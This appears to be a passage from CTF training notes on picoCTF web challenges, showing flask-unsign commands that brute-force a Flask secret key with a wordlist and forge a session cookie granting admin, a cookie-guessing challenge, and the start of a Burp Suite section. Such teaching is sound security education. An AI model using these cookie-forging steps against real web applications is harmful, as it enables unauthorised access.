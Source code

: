 
# JWT
When we see the JWT token, it has `very_auth` set to `blank` and we need to set it to admin.

# Flask-unsign

This tool deals a lot with listed cookies, jwt's and much more. We will use the following-

1. Check Which cookie works
```bash
flask-unsign -u --server http://mercury.picoctf.net:18835/ --wordlist cookies.txt
``` 

2. Get the JWT token 
```bash
flask-unsign -s -c "{'very_auth': 'admin'}" -S fortune
```

Now upload the JWT token and you are good to go!


### Problem 3

This is the same as before, but a bit easier. Your time starts now- 

```bash +exec
for i in $(seq 5 0)
do # TIMER
    echo  "$i minutes left"
    sleep 60
done
```

## Hint:
Search on net for different types of cookies, try putting in one and see how the website cookie changes. Maybe you just need to make some guesses....

### Solution 3
Well if you would notice the cookies section, each cookie is given a value, for example wafer cookies have 17. Now you have to change the numbers, refresh and try to find the correct number. 

Try manually to get 18 as the payload. A more automated way will be explained after I teach BarpSuite.


## Proxy and Barpsuite

This is the most commonly used and the most powerful tool for web exploits. It offers a range of features to help security professionals and penetration testers identify and exploit vulnerabilities in web applications.

### Tools we will use inside Barpsuite
